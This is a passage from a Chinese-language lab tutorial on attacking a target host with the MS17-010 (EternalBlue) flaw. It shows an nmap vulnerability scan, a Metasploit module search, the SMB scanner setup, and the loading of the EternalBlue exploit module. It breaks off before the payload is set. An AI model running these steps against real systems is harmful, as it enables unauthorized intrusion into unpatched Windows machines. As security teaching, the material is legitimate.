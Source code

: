 #### 3.2.2 开始攻击

用 `nmap` 的漏洞扫描模式。

```shell
nmap --script=vuln 192.168.178.128
```

可以发现，靶机上扫到了 4 个漏洞，其中包括了 `ms17-010`。

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-eb0532066f7031da47d01ef135024426.png)

打开 `metasploit`：

```shell
msfconsole
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-eb3f96e7e4ef2eb76a27ede1d5ba5542.png)

搜索 `ms17-010` 相关模块，可以看到一共找到了 6 个不同的模块。

```shell
search ms17-010
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-e22445af8b307fc3b69bd29df1cd0a6d.png)

加载扫描模块。

```shell
use auxiliary/scanner/smb/smb_ms17_010
```

查看配置选项

```shell
show options
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-cfffff8bf9128e3d2d3cd309d336b64d.png)

RHOSTS 显示远程主机未配置，配置目标主机。

```shell
set rhosts 192.168.178.128
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-ec1f84d2813a6edea93e864c89795b8c.png)

开始扫描漏洞，再次证实靶机存在 MS17-010 漏洞。

```shell
exploit
```

![在这里插入图片描述](https://xingqiu-tuchuang-1256524210.cos.ap-shanghai.myqcloud.com/8919/1677139697-d22ecc14d79a259f4d1493027f5a7bba.png)

使用永恒之蓝攻击模块：`exploit/windows/smb/ms17_010_eternalblue` ，并设置攻击载荷：
